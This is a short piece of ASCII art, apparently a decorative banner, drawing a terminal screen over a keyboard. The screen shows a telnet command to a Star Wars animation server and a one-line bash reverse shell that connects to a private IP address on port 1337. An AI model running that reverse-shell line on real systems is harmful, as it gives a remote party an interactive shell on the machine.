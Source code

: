     **********************************************************************************
    * $ bash -i >& /dev/tcp/10.10.9.1/1337 0>&1                                      *
    * $ telnet towel.blinkenlights.nl                                                *
    *                                                                                *
    *                                                                                *
    *                                                                                *
    *                                                                                *
    *                                                                                *   
    *                                                                                *
    *                                                                                *
    **********************************************************************************
      ESC   F1 F2 F3 F4 F5 F6 F7 F8 F9 F10 F11 F12 PRT SCR  BRK
      ~       1 2 3 4 5 6 7 8 9 0 - =    BCKSP     INS HOME PGUP           -------
      TAB      q w e r t y u i o p { }    \|/      DEL END  PGDN           |  |  |
      CAPS     a s d f g h j k l : "     ENTER                             |     |
      SHIFT     z x c v b n m , . /      SHIFT          |                  |_____|
      CTRL WIN  ALT   S_P_A_C_E ALT   FN WIN CTRL    <- _ ->

